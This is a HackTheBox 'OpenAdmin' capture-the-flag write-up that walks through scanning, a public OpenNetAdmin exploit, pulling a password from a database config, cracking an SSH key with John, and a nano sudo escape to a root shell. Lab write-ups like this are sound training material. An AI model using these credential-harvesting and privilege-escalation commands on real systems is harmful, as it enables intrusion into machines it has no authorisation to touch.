 ```yaml
---
layout: post
title: "HTB - Openadmin"
date: 2021-11-17  
categories: [Hackthebox, Linux]
tags: [opennetadmin, gtfobins, ssh2john, id_rsa]
image: ../../assets/img/posts/Openadmin/openadmin.jpg
---
```


## Summary -

**OpenAdmin** from HackTheBox is an easy-rated machine which involves an exploit for OpenNetAdmin to get a foothold on the machine. There are 2 users on the box Jimmy and Joanna . We get the password for Jimmy via database config file & then ssh as Jimmy, then on enumerating we find an internal application running.Doing a simple curl command reveals id_rsa key of Joanna. We then crack the password of the id_rsa file and ssh into the machine as Joanna. For root, we find that we have sudo privileges over nano . We refer sudo entry for nano on  [gtfobins](https://gtfobins.github.io/gtfobins/nano/)  & we easily escalate our privileges as root!


| **Name  -** | Openadmin |
|:---:|---|
| **OS   -**    | Linux |
| **Difficulty -** | Easy |
| **Room Link   -** | https://www.hackthebox.eu/home/machines/profile/222 |
| **Creator   -** | [del_KZx497Ju](https://www.hackthebox.eu/home/users/profile/82600) 
 |


## Enumeration -

**Nmap**


```zsh
# Nmap 7.91 scan initiated Tue Jul  6 14:02:13 2021 as: nmap -sC -sV -p 22,80 -v -oN openadmin.nmap 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.46s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 14:02:42 2021 -- 1 IP address (1 host up) scanned in 28.86 seconds

``` 
As you can see there are 2 ports open :

**Port 22** - `SSH`   -  `OpenSSH 7.6p1 Ubuntu 4ubuntu0.3`

**Port 80** - `HTTP`  -  `Apache httpd 2.4.29`


**Web Enumeration**

At port 80 we find default page of apache 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730338625/uCtP0pGDm.png)
Lets do some directory bruteforcing. Dirsearch reveals the following directories 

```
/music
/artwork
/sierra
``` 
On visiting the ***/music*** directory It gives us this page
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730702532/MBOEMMzap.png)
 This login button takes us to `http://openadmin.htb/ona` .On visiting,we get a page like this 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730557375/VnYYMhh6F.png)

From the above , we could identify that the software is `OpenNetAdmin` and the version is `v18.1.1`
## Foothold  -

We use `searchsploit` to find any publicly available exploits for `OpenNetAdmin - v18.1.1` ,& we find this

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625829682381/9bCc51NNt.png)

Lets mirror it to our current directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625829835307/xekdj_qUR.png)

Lets run the exploit 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830040051/GFqNaKtRd.png)
And we are `www-data `  user

There are 2 users on the machine `Jimmy` and `Joanna`

```bash
 cat /etc/passwd | grep -i "bash"
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830263020/lMQid09DX.png)

## Shell as Jimmy -
On enumerating the current directory we find a `database config file` which contains a password !


```bash
cat local/config/database_settings.inc.php | grep -i "pass"
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830572487/QNWheVAMf.png)
We are not sure which user's password is this , so first we try to ssh into the machine as Jimmy & we're logged in !

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830737331/wKrurZtl2.png)

Running `id`  command we see that we are part of `internal` group .Lets keep that in mind and move ahead & enumerate further ..
We run a find command to check for files which jimmy owns 


```bash
 find / -user jimmy 2>/dev/null
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831118840/e9JJqmT43.png)
HMM..INTERESTING ! Lets check that  `/var/www/internal/` directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831234552/MBVd6-DoMg.png)
Seems like there is an internal website running here 🧐 .We can verify it by running 
 
```bash
netstat -tulpn
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831363346/jweAQt1FR2.png)

## Shell as Joanna -

Lets check that internal website running at `port 52486` by using `curl` command


```bash
 curl localhost:52846/main.php
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832226010/qxh-pQYio.png)
Voila we get an **encrypted id_rsa key** !! Lets crack it and ssh in as *Joanna *!

Run `ssh2john` against `id_rsa` file to obtain a hash and crack it using John -


```bash
 /usr/share/john/ssh2john.py --wordlist=/usr/share/wordlists/rockyou.txt id_rsa >> hash

 john --wordlists=/usr/share/wordlists/rockyou.txt hash
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831758138/VX9FLY6z2.png)
We get Joanna's password !Lets try ssh into the box as Joanna 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831939144/xnOPraY0g3.png)
 Grab the  `user.txt`🚩
  
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832725095/-oQxN0eMe.png)

## Shell as Root -
Running `sudo -l` we find we could run nano on `/opt/priv` directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832068247/PFgUlh4Mw.png)
So we check  [GTFOBINS](https://gtfobins.github.io/gtfobins/nano/)  for any **sudo entry for nano**

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832344408/Ds0lpTgVL.png)

```
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

Run the above commands to get a root shell 
Grab the `root.txt ` 🚩  😎

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625834602463/OH8oNETD7.png)






